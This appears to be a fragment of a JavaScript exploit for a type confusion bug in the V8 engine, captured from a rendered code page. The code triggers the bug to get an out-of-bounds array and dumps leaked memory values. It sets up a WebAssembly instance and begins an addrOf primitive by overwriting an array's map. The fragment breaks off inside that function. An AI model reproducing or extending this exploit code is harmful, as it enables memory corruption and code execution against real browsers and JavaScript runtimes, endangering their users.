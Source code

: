 ```js
    a = [0.1, , , , , , , , , , , , , , , , , , , , , , , 6.1, 7.1, 8.1];
  
    for (var i = 0; i < MAXITER; i++) {
        empty();
    }  

    a.pop();
    a.pop();
    a.pop();
  
    main(empty);
    main(empty);
    main(p);
    for (let i = 0; i < MAXITER; i++) {}
}
console.log("\n[+] Triggering type confusion bug\n");
oobMe();
%DebugPrint(oob_Array);
  
  for(let i = 0 ; i < LOOPCOUNT; i++){
    console.log("oob_Array[" + i+  "] : " + Int64.fromDouble(oob_Array[i]).toString());  
  }

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);


var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});

// Since our values from `oob_Array` are 8 bytes while the map is only 4 bytes, we will need to preserve the bytes just in case.

fixedDoubleArrayMap = new Int64.fromDouble(oob_Array[fixedDoubleArray_Map]).toString().slice(10, 18);
// The fixedArray map that we want to replace at is the upper 32 bits so we need to preserve the lower 32 bits just in case
bytesToPreserveJustInCase = new Int64.fromDouble(oob_Array[fixedArray_map_to_be_replaced_at_index]).toString().slice(10, 18);

corruptValue = fixedDoubleArrayMap + bytesToPreserveJustInCase;
corruptValue = new Int64(corruptValue);

function addrOf(object, isLower) {
    addr = null;
    backup = oob_Array[33]; // this where the map of the corruptedmaparray is located at

    oob_Array[fixedArray_map_to_be_replaced_at_index] = corruptValue.asDouble(); //  Change the map of the object array to trick into thinking that it is a double array
    obj_arr_to_corrupt[0] = object; // Write in the object at the object array that we want to get the address of
    if (isLower == true) {
  
        addr = Int64.fromDouble(obj_arr_to_corrupt[0]).toString().slice(10, 18);
    } else if (isLower == false) {
  
        addr = Int64.fromDouble(obj_arr_to_corrupt[0]).toString().slice(0, 10);
    } else {
        addr = Int64.fromDouble(obj_arr_to_corrupt[0]).toString();
    }
    oob_Array[33] = backup; // Changing the map back to an object for safety
```